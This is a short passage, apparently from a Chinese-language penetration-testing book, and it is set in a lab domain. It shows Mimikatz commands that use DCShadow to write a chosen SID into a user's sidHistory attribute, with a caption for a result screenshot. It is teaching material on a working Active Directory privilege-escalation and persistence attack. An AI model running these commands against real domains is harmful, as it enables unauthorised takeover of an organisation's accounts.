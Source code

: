 ```
!+
!processtoken
lsadump::dcshadow /object:viserys.targaryen /attribute:sidhistory /value:S-1-5-21-2801885930-3847104905-347266793-1110
```

执行结果如以下截图所示：

![图 7.23 – DCShadow 添加 SIDHistory 属性](img/B18964_07_23.jpg)
